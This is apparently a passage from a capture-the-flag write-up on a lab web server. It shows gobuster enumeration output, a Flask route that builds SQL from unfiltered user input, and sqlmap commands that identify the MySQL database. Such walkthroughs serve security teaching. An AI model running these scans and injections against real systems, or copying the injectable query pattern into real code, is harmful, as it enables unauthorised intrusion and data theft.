 Here we can see `flask` which is a python module. I added python extention to `gobuster` and ran it again:

~~~
└─$ gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://$IP:80/ -x py,txt

[REDACTED]

/index                (Status: 200) [Size: 8541]
/contact              (Status: 200) [Size: 6906]
/products             (Status: 200) [Size: 7254]
/login                (Status: 200) [Size: 4980]
/admin                (Status: 200) [Size: 4983]
/static               (Status: 301) [Size: 194] [--> http://10.10.96.34/static/]
/app.py               (Status: 200) [Size: 2371]                                
/requirements.txt     (Status: 200) [Size: 258]
~~~

We found a file named `app.py`. I downloaded the file using `wget` (`wget http://<MACHINE IP>/app.py`) and took a look at it.

### SQL Injection

This file is hosting the routes. There were many functions inside it, but this one looks vulnerable:

~~~py
# Product Route
# SQL Query performed here
@app.route('/products/<product_id>', methods=['GET'])
def product(product_id):
    with eng.connect() as con:
        # Executes the SQL Query
        # This should be the vulnerable portion of the application
        rs = con.execute(f"SELECT * FROM product WHERE id={product_id}")   # <----------
        product_selected = rs.fetchone()  # Returns the entire row in a list
    return render_template('product.html', title=product_selected[1], result=product_selected)
~~~

This route is used for dynamic url and user input `product_id`, is directly used in the query sent to the database and that's what makes this part of the code exploitable, because there's no filter what so ever to block the malicious queries. 

I'm gonna use `sqlmap` to automate the injection process on `http://<MACHINE IP>//products/1`. First we should find the database currently being used by running the following command:

~~~
└─$ sqlmap -u http://$IP//products/1 --current-db --batch

[REDACTED]

[04:23:31] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.14.0
back-end DBMS: MySQL >= 5.0.12
[04:23:32] [INFO] fetching current database
current database: 'duckyinc'            <----------
~~~
